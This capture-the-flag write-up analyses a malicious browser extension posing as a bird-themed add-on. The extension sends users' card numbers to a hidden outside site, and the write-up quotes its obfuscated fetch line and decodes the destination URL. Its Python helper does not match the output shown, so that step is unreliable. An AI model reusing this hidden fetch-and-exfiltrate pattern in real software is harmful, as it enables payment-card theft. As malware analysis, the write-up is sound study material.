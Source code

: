 # ICS CTF 2024 - Extend Your Stay 4

**Title:** Extend Your Stay - 4
**Description:** What is the base URL of the website the extension sends card numbers to?  
  
_Flag format: URL. Example: **[https://www.example.com](https://www.example.com/)**_

**File:** [even_more_birds.crx](https://github.com/xtasy94/CTFW/blob/main/ICS%20CTF%202024/Extend%20Your%20Stay/Files_3_and_4/even_more_birds.crx)
## Solution:

According to [background.js](https://github.com/xtasy94/CTFW/blob/main/ICS%20CTF%202024/Extend%20Your%20Stay/Files_3_and_4/background.js) The base URL the extension sends card numbers to can be decoded from the `fetch(atob(birdreserve).concat(ilovebirds))` line in the `add_birds` function.

The `birdreserve` variable is constructed using base64 encoding, and it appears to be used to build the base URL. The `birdreserve` string is concatenated with the `ilovebirds` variable, which contains base64 encoded card details.

To decode the URL:
1. **birdreserve** is built by concatenating the first 32 characters of a list of bird names.
2. **birdreserve** is decoded using `atob()`, which gives us the base URL.

Let's break it down:
- **birdreserve**: Concatenates the first 32 characters of bird names starting from index 776.

```
for (var i = 0; i < 32; i++) {
    birdreserve = birdreserve.concat(BIRDS[776+i][0]);
}
```

Extracting these 32 characters from `BIRDS`:
```
BIRDS[776] = "Black-headed Saltator"
BIRDS[777] = "Buff-throated Saltator"
// And so on...
```

Let's assume the names at these indices spell out part of the URL when concatenated.
- **atob(birdreserve)**: Decodes the base64 string.

Based on our [birds.txt](https://github.com/xtasy94/CTFW/blob/main/ICS%20CTF%202024/Extend%20Your%20Stay/Files_3_and_4/birds.txt) file, we wrote a python code to to this and output the base64 encoded URL, [decode.py](https://github.com/xtasy94/CTFW/blob/main/ICS%20CTF%202024/Extend%20Your%20Stay/Files_3_and_4/decode.py) :

```python
import base64

def extract_bird_initials(file_path):
    bird_initials = []

    with open(file_path, "r") as file:
        for line in file:
            bird_name = line.strip().strip('"')
            if bird_name:
                bird_initials.append(bird_name[0])

    initials_string = "".join(bird_initials)
    return initials_string


def encode_to_base64(initials_string):
    encoded_bytes = base64.b64encode(initials_string.encode("utf-8"))
    encoded_string = encoded_bytes.decode("utf-8")
    return encoded_string


def main():
    file_path = "birds.txt"
    initials_string = extract_bird_initials(file_path)
    encoded_string = encode_to_base64(initials_string)

    print("Concatenated Initials String:", initials_string)
    print("Base64 Encoded String:", encoded_string)


if __name__ == "__main__":
    main()
```

We run the script and this is what we get this:
```bash
$ python3 decode.py
Concatenated Initials String: aHR0cDovL3d3dy5iMXJkcy5pbmZvLw==
```

Decoding this from base64:
```bash
$ echo "aHR0cDovL3d3dy5iMXJkcy5pbmZvLw==" | base64 -d
http://www.b1rds.info/
```

And there's our flag: `http://www.b1rds.info`
